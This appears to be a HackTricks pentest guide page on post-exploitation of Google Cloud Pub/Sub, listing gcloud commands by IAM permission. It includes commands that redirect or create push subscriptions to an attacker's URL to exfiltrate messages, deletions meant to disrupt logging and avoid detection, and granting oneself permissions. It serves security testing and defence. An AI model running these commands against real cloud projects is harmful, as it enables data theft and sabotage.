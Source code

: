 # GCP - Pub/Sub Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

For more information about Pub/Sub check the following page:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Publish a message in a topic, useful to **send unexpected data** and trigger unexpected functionalities or exploit vulnerabilities:

```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```

### `pubsub.topics.detachSubscription`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.

```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```

### `pubsub.topics.delete`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.\
It's possible to delete a topic even with subscriptions attached to it.

```bash
gcloud pubsub topics delete <TOPIC NAME>
```

### `pubsub.topics.update`

Use this permission to update some setting of the topic to disrupt it, like `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Give yourself permission to perform any of the previous attacks.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Get all the messages in a web server:

```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```

Create a subscription and use it to **pull messages**:

```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```

### `pubsub.subscriptions.delete`

**Delete a subscription** could be useful to disrupt a log processing system or something similar:

```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```

### `pubsub.subscriptions.update`

Use this permission to update some setting so messages are stored in a place you can access (URL, Big Query table, Bucket) or just to disrupt it.

```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```

### `pubsub.subscriptions.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attack a schema to a topic so the messages doesn't fulfil it and therefore the topic is disrupted.\
If there aren't any schemas you might need to create one.

```json:schema.json
{
  "namespace": "com.example",
  "type": "record",
  "name": "Person",
  "fields": [
    {
      "name": "name",
      "type": "string"
    },
    {
      "name": "age",
      "type": "int"
    }
  ]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
    --schema=projects/<project-name>/schemas/<topic-id> \
    --message-encoding=json
```

### `pubsub.schemas.delete`

This might look like deleting a schema you will be able to send messages that doesn't fulfil with the schema. However, as the schema will be deleted no message will actually enter inside the topic. So this is **USELESS**:

```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```

### `pubsub.schemas.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

This is will create a snapshot of all the unACKed messages and put them back to the subscription. Not very useful for an attacker but here it's:

```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
    --subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
    --snapshot=YOUR_SNAPSHOT_NAME
```

{{#include ../../../banners/hacktricks-training.md}}




